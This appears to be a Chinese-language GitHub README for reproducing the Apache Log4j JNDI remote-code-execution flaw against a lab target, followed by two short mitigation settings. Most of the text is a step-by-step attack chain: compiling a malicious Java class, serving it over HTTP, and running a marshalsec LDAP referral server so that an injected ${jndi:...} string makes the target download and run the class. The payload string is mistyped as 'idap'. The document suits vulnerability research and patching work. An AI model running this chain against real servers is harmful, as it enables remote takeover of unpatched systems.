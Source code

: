 # Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

### 触发步骤


1. 先编译Log4jRCE，这个是恶意java代码,需要预先编译成恶意java类。注意不要用版本太高的jdk编译，不然jdk低版本的靶机可能无法执行。随后启动http server
   1. cd 切换到存放Log4jRCE.java的文件夹内
   2. 编译 `javac Log4jRCE.java`生成Log4jRCE.class
   3. 启动一个http server，python或php均可快速启动，如`php -S 0.0.0.0:8888`

2. 使用marshalsec的ldap server，访问这个ldap server内的任意资源都会被自动转发到http server的固定资源，这里需要转发到http server中的恶意java类文件
   1. 先clone这个项目`git clone https://github.com/mbechler/marshalsec.git`
   2. cd切换进这个项目内`cd marshalsec`
   3. 构建项目jar包`mvn clean package -DskipTests`
   4. 启动ldap server并配置转发到之前启动的http server内的资源（原理是访问这个ldap服务的任意路由，都会获得http server内的一个固定资源） `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(这里写http server在公网上的地址及端口)/#Log4jRCE"`
      此时对靶机提交${jndi:idap://ip:port/{随便写}}即可，ldap server会自动从http server中下载指定资源并返回给靶机。
3. log4j.java是一个简单的漏洞环境实现，在代码中对应位置写好ldap的地址即可。底层原理就是靶机会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true
